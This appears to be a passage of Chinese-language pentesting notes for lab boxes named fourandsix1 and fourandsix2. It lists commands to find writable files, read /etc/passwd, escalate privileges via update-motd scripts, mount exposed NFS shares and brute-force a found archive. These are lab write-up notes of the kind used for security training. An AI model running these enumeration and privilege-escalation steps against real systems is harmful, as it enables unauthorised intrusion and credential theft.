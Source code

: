 

```
找可写的文件 排除路径下的
find / -writable -type f -not -path "/proc/*" -not -path "/sys/*" 2>/dev/null
拿到shell的权限 的文件夹可以不看

bf语言
--[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++. 
beef xxx.bf

cat /etc/passwd 找密码和bash
ssh尝试登录

motd 提权 ssh登录linux 的欢迎信息 全局性  会执行bash 与fowsniff 类似 加载可执行文件中的欢迎信息 可以 借此提权 .sh .d
cd /etc/update-motd.d/

```





## fourandsix1

```
rpcbind是NFS中用来进行消息通知的服务。 111 2049 nfs rdpbind 考虑挂载-sU 
探测 rpc的版本是 rpcbind 2
搜索漏洞打一下

searchsploit rpcbind 貌似没有可以利用的
```

![image-20230603171507833](https://cdn.staticaly.com/gh/Mrship12138/NotePic@main/img/202306031715077.png)



```
nmap -p 111 --script=rpcinfo 192.168.231.144

showmount -e 192.168.231.144
Export list for 192.168.231.144:
/shared (everyone)

mkdir fas

mount -t nfs 192.168.231.144:/ fas 挂载根目录
```



## fourandsix2

```
22/tcp  open  ssh
111/tcp open  rpcbind
676/tcp open  vpps-via


showmount -e 192.168.231.146
Export list for 192.168.231.146:
/home/user/storage (everyone)

mount -t nfs 192.168.231.146:/home/user/storage fas2
发现压缩包
尝试压缩包爆破
cp 7z.7z .. 拷出来

查看有无附带文件
```